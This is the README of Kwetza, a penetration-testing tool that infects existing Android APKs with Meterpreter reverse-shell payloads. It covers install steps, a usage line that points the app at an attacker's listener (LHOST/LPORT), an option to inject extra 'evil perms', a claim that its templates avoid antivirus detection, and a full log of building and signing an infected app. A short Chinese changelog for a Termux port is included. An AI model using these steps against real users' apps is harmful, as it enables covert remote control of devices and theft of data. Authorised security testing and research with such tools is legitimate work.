 # Introduction
[![Arsenal](https://rawgit.com/toolswatch/badges/master/arsenal/2017.svg)](http://www.toolswatch.org/2017/06/the-black-hat-arsenal-usa-2017-phenomenal-line-up-announced/)

By Chris Le Roy (@brompwnie) chris@sensepost.com

Kwetza is a tool that allows you to infect an existing Android application with a Meterpreter payload.

#修改说明
以下修复均出现在手机Termux终端上
1.指定脚本使用python3执行
2.修复语法错误:调用“print”时缺少括号
3.修复需要一个类似于bytes的对象，而不是'str'
4.修复'utf-8'编解码器无法解码字节0xa4在位置4:无效的开始字节

# What does it do?

Kwetza infects an existing Android application with either custom or default payload templates to avoid detection by antivirus. Kwetza allows you to infect Android applications using the target application's default permissions or inject additional permissions to gain additional functionality.

# Where can I get the blogpost?
The manual steps automated by Kwetza can be found here: https://sensepost.com/blog/2016/kwetza-infecting-android-applications/

# Getting the code

Firstly get the code:
```
git clone https://github.com/sensepost/kwetza.git
```

Kwetza is written in Python and requires BeautifulSoup which can be installed using Pip:
```
pip install beautifulsoup4
```
Kwetza requires Apktool to be install and accessible via your PATH. This can be setup using the install instructions located here: https://ibotpeaches.github.io/Apktool/install

# Usage

python kwetza.py nameOfTheApkToInfect.apk https/tcp LHOST LPORT yes/no customClass

* nameOfTheApkToInfect.apk = name of the APK you wish to infect.
* https/tcp = select either a HTTPS or TCP connection
* LHOST = IP of your listener.
* LPORT = Port of your listener.
* yes = include "yes" to inject additional evil perms into the app, "no" to utilize the default permissions of the app.
* customClass = Specify a custom activity here if you want Kwetza to inject into this activity.

```
python kwetza.py hackme.apk https 10.42.0.118 4444 yes com.moo.another.activity
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```


# Information

Kwetza has been developed to work with Python 2.

Kwetza by default will use the template and keystore located in the folder "payload" to inject and sign the infected apk.

If you would like to sign the infected application with your own certificate, generate a new keystore and place it in the "payload" folder and rename to the existing keystore or change the reference in the kwetza.py.

The same can be done for payload templates.

The password for the default keystore is, well, "password".

# License

Kwetza is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0).

Permissions beyond the scope of this license may be available at http://sensepost.com/contact
